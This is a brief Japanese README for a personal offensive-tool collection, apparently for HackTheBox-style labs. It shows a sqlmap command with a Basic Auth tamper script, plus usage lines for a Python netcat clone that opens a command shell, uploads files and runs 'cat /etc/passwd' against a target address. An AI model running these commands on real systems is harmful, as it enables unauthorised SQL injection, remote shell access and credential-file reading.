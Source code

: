 # side_tool
個人的ハックツールに付与できる拡張機能コードリスト

## sqlmap_basic_auth.py
sqlmapコマンドのBasic Auth Base64 Request拡張機能コード
<br/>
コマンド例
```
sqlmap -r ./req --tamper=./sqlmap_basic_auth.py --ignore-code=401 --level 5 --risk 3
```
リクエスト例
```
#req
GET http://example.htb/ HTTP/1.1
Content-Length: 0

...
Authorization: Basic *
```

## netcat.py
Python環境が存在（ほぼある）するターゲットで簡易的に足場を構築するためのもの

```
# 対話型コマンドシェルの起動
netcat.py -t 10.11.14.13 -p 4444 -l -c
# ファイルのアップロード
netcat.py -t 10.11.14.13 -p 4444 -l -u=mytest.whatisup
# コマンドの実行
netcat.py -t 10.11.14.13 -p 4444 -l -e=\"cat /etc/passwd\"
# 通信先サーバーの135番ポートに文字列を送信
echo 'ABCDEFGHI' | ./netcat.py -t 10.11.14.13 -p 135
# サーバーに接続
netcat.py -t 10.11.14.13 -p 4444
```
